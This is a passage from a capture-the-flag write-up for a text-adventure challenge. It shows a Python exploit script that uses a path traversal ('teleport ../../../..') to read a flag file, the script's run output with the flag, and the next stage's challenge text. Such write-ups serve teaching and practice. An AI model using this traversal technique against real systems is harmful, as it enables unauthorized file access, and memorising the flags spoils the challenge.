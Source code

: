 ```python

    # Trigger the path traversal to get to the root.
    log.info('Triggering path traversal vulnerability to navigate to /')
    c.sendline('teleport ../../../../../../..')

    # Move to /home/rabbit/
    log.info('Moving to /home/rabbit')
    next_path = [b'home', b'rabbit']
    c.multimove(next_path)

    # Get the flag.
    log.info('Reading the flag at /home/rabbit/flag1')
    flag1 = c.read(b'flag1')
    log.success('Flag 1:')
    log.success(flag1.decode('ascii'))

    # Present an interactive prompt.
    c.interactive()
```

Running the exploit:

```shell
root@42c70e7d708e:/opt/wonderland# ./1_arbitrary_file_read.py
[+] Opening connection to 172.17.0.1 on port 31337: Done
[▅] Initialising connection. This will take a moment...
[*] Moving to the a-shallow-deadend to get the pocket-watch...
[*] Disabling text scroll.
[*] Moving to a-curious-hall to drink the pink-bottle...
[*] Moving to a-fancy-pavillion to eat the fluffy-cake...
[*] Moving to a-mystical-cove to get the looking-glass...
[*] Triggering path traversal vulnerability to navigate to /
[*] Moving to /home/rabbit
[*] Reading the flag at /home/rabbit/flag1
[+] Flag 1:
[+] TISC{r4bbb1t_kn3w_1_pr3f3r_p1}

[*] Switching to interactive mode
$
```

The full exploit can be found in [`1_arbitrary_file_read.py`](https://github.com/nnamon/tisc-2021-1865-text-adventure/blob/main/solutions/1_arbitrary_file_read.py).

Flag: `TISC{r4bbb1t_kn3w_1_pr3f3r_p1}`


### Stage 2: Pool of Tears

The challenge text for this stage is:

```
It looks like the Rabbit knew too much about PALINDROME. Within his cache of secrets lies a special
device that might just unlock clues to tracking down the elusive trickster. However, our attempts
read it yield pure gibberish.

It appears to require... activation. To activate it, we must first become the Rabbit.

Please assume the identity of the Rabbit.

The game is hosted at 172.17.0.1:31337.

No kernel exploits are required for this challenge.
```
